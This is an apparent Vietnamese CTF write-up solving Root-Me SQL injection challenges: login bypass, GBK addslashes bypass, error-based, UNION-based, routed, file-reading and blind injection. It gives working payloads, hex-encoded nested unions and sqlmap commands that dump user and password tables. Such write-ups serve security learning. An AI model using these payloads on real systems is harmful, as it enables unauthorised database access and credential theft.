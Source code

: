 ### [SQL Injection - Authentication]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication/payload.png?raw=true)

Ta đơn giản sử dụng payload *username = admin’--* để bypass qua phần password của admin.
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication/pass.png?raw=true)

Sau đó mở source code để check password, pass cũng chính là flag.
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication/flag.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication/flag_real.png?raw=true)

### [SQL injection - Authentication - GBK]()
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/gbk.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/chall.png?raw=true)


Có vẻ như function addslashes được sử dụng ở trường login còn md5 ở trường password . Kịch bản như thế này, chỉ cần chú ý bypass addslashes ở trường login là được. Không cần để ý trường password.


[GBK](https://en.wikipedia.org/wiki/GBK_(character_encoding))

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/chall.png?raw=true)

```
%bf%27%20or%201=1%20--
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/flag.png?raw=true)


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/login.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Authentication%20-%20GBK/payload.png?raw=true)

### [SQL Truncation]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20Truncation/trancation.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20Truncation/flag.png?raw=true)

### [SQL injection - Error]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Error/error.png?raw=true)



```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs 
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Error/sqlmap_database.png?raw=true)


Trong đó đoạn trong ngoặc kép là url của trang cần khai thác. --dbs là để lấy dữ liệu database. Chờ 1 lúc thì được kết quả:

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này: 
```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Error/sqlmap_getdatabase_public.png?raw=true)

Trong đó --tables sử dụng để lấy tên các bảng. -D public là để lấy kết quả trong database public.

```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump 
```

Trong đó -T là bảng cần lấy data. --dump để lấy toàn bộ dữ liệu bảng này:


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Error/sqlmap_getdatabase_public2.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Error/get_data_m3mbr35t4bl3.png?raw=true)


### [SQL injection - String]()


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20String/string.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20String/chall.png?raw=true)


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20String/checkversion.png?raw=true)

Đầu tiên ta sử dụng 1 payload để server trả về lỗi systax hoặc lỗi gì đó để xác định version của server sql. Trong trường hợp này SQLite3 



Dùng payload như sau để xác định số cột trong database 1’ order by 1-- và tăng dần cho đến khi trả về lỗi. Lần này số cột sẽ là 2.




Ta lấy tên bảng bằng cách truy vấn. Với SQLite3 ta gõ lệnh sau: 
```
1' union select 1,sql from sqlite_master--
```
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20String/2column.png?raw=true)



```
1’ union select username,password FROM users--
```
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20String/flag.png?raw=true)


### [SQL injection - Numeric]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/number.png?raw=true)


Ta sử dụng tương tự các payload tương tự như trên để xác định các thành phần cơ bản như trên của server.


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/chall.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/column.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/select%20column2.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/sql3.png?raw=true)

```
1 union select 1,2,3--
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/select%20column.png?raw=true)

```
1 union select 2,3,sql from sqlite_master--
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/find%20name%20column.png?raw=true)


```
1 union select 1,username,password FROM users--
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20Numeric/flag.png?raw=true)


### [SQL Injection - Routed]()


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20Injection%20-%20Routed/mariaDB.png?raw=true)


```
‘ union select 1’ order by 1-- 
```
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20Injection%20-%20Routed/attackdetected.png?raw=true)

Ta sử dụng burpsuite để bắt truy vấn và thực hiện cho đơn giản

```
union select 1’ union select 1,2-- - -- -

' union select 0x27206F726465722062792033202D2D202D -- -

```
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20Injection%20-%20Routed/table%20name.png?raw=true)


```
' union select ' union select 1,table_name from information_schema.tables where table_schema = database() -- - -- -

 'union select 0x2720756E696F6E2073656C65637420312C7461626C655F6E616D652066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D2064617461626173652829202D2D202D202D2D202D -- - --
 
```

![img]()



```
1' union select ' union SELECT 1,group_concat(login,' : ',password) FROM users-- - -- -

1' union select 0x2720756E696F6E2053454C45435420312C67726F75705F636F6E636174286C6F67696E2C27203A20272C70617373776F7264292046524F4D2075736572732D2D202D -- - --
```






### [SQL Injection - File reading]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/filereading.png?raw=true)

Bài này có filter mất ký tự ‘ và “ nên nếu cần sử dụng, ta sẽ mã hóa đoạn đó sang hex để sử dụng. Ta cũng thực hiện khai thác lần lượt để lấy dữ liệu. Ta sẽ lấy cột có thể khai thác. Gõ lệnh:

```
-1 union select 1,2,3,4--
```
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/chall.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/error2.png?raw=true)


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/checkcolumn.png?raw=true)
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/error.png?raw=true)
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/code.png?raw=true)
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/sqlmap.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/sqlmap.png?raw=true)
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/table%20name.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/table%20name2.png?raw=true)


![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/table%20name2_filtername.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20-%20File%20reading/flag%20decode.png?raw=true)



-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()--


Vậy là có 1 bảng tên member. Thực hiện lấy column_name từ bảng member.
Trong đó ‘member’ được mã hóa sang mã hex:

-1 union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 0x6d656d626572--

Kết quả trả về 4 cột, tuy nhiên ta chỉ cần lấy 2 cột member_login và member_password để khai thác là được. Thực hiện lấy dữ liệu 2 cột:

-1 union select 1,2,3,group_concat(member_login,member_password) FROM member--



### [SQL Injection - Blind]()

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/blind.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/user1.png?raw=true)
![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/welcome.png?raw=true)


```
username=user1' and substr((select password from users where (username=’user1')),1,1)=’§subpass§’ — &password=password
```

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/bruteforce.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/admin_request.png?raw=true)

![img](https://github.com/datnlq/R0OtM3/blob/main/Web/SQL%20Injection/SQL%20injection%20%E2%80%94%20Blind/bruteforce_admin.png?raw=true)

### [SQL injection - Insert]()


### [SQL injection - Time based]()


### [SQL injection - Filter bypass]()



